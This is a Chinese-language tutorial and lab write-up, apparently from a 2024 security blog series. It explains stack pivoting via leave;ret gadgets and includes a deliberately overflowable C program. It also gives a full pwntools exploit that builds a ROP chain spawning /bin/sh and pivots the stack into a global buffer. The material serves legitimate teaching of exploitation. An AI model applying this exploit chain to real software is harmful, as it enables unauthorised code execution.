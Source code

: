 ```yaml
---
title: "Day18－Stack Pivoting"
date: 2024-09-18
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

如果我們沒有辦法有足夠的長度或方法 leak libc 或是構建 ROP chain，還有什麼攻擊方式嗎？其實有的，就是將 stack 直接移到其他區塊並執行事先寫在指定區域的 chain。將 stack 遷移到其他地方的方式就叫做 Stack Pivoting 或 Stack Migration。

## Stack Pivoting

Stack Pivoting 是將 ROP chain 分次寫在指定區域，最後將 stack 遷移過去執行。Stack 由 `rsp` 控制，因此我們需要控制 `rsp`，主要利用以下的關鍵指令：

- leave ; ret

實際執行了以下兩個動作：

- leave -> mov rsp , rbp ; pop rbp ;
- ret -> pop rip;

由於在每次的 buffer overflow 中，`rbp` 是可以控制的，所以我們可以利用 `rbp` 加上這個指令來控制 `rsp`。這些 gadgets 在程式中幾乎都可以找到，因為它們通常用於 function 結束時恢復上一個 function 的 stack frame。

### 範例

以下範例展示如何將 `rsp` 遷移到另一個區塊：

原本的 `rbp` 是 `0x7ffe65dea290`，`rsp` 是 `0x7ffe65dea280`。經過 `leave` 後，`rbp` 被換成我們填入的 `save rbp` 位置，`rsp` 變為 `rbp + 0x8`。再透過一次 `leave`，`rsp` 就會進一步改變。

如此一來，我們就可以控制執行流程，並且可以通過不斷遷移 stack 來達成任意的 ROP。

![image](/images/iron2024/day18_image1.png)

![image](/images/iron2024/day18_image2.png)

![image](/images/iron2024/day18_image3.png)

![image](/images/iron2024/day18_image4.png)

## Lab

查看以下原始碼：

```c=
#include<stdio.h>
#include<stdlib.h>

char name[0x100];

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    puts("Welcome to challenge!");
    puts("What's your name?");
    read(0, name, 0x100);
    puts("Leave a message: ");
    read(0, message, 0x20);
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/stack_pivoting.c  -o ./stack_pivoting/share/stack_pivoting -fno-stack-protector -no-pie -static
```

## writeup

可以發現有一個全域變數 `name` 可以寫入內容，還有一個 `message` 可以輸入並且存在 buffer overflow 的風險。我們可以確認是否能覆蓋 return address。

在輸入是從 `rbp - 0x10` 輸入 0x20，因此可以 overflow 的空間為 0x20 - 0x10 = 0x10，剛好可以覆蓋 return address。

![image](/images/iron2024/day18_image5.png)

因為編譯參數使用了 `-static`，我們可以利用許多 gadgets 來進行 ROP。不能直接透過 return address 進行 ROP，但可以將 ROP chain 寫在 `name` 中，透過 stack pivoting 將程式流程轉移到 `name`，進而執行 ROP。

確認 `name` 的位置：

![image](/images/iron2024/day18_image6.png)

接下來可以參考[Day12－Basic ROP](https://ithelp.ithome.com.tw/articles/10358514)

要注意，name 要填入最後將 rsp 遷移過去會改的 padding，還有要注意 return address 的部分要填上 leave ; ret，並且加上原先就存在 main function 最後的 leave ; ret，即可改變 rsp

完整 exploit：

```py=
from pwn import *

context.arch = 'amd64'

# r = process('../stack_pivoting/share/stack_pivoting')
r = remote('127.0.0.1', 10009)

rop = flat(
    0x00000000004048f4, # pop rsi ; ret
    0x49c230, # writable address
    0x0000000000417807, # pop rax ; ret
    b'/bin/sh\x00',
    0x0000000000418f31, # mov qword ptr [rsi], rax ; ret
    0x0000000000417807, # pop rax ; ret
    0x3b, # execve
    0x0000000000402008, # pop rdi ; ret
    0x49c230, # writable address
    0x00000000004048f4, # pop rsi ; ret
    0x0, # NULL
    0x00000000004563b7, # pop rdx ; pop rbx ; ret
    0x0, # NULL
    0x0, # NULL
    0x0000000000401291, # syscall
)
payload = b'A' * 0x8 + rop
r.sendlineafter(b"What's your name?\n",payload)
name = 0x000000000049db40
leave_ret = 0x0000000000401852
pivoting = b'A' * 0x10 + p64(name) + p64(leave_ret)
r.sendlineafter(b"Leave a message: \n",pivoting)
r.interactive()
```

solve!!!

![image](/images/iron2024/day18_image7.png)
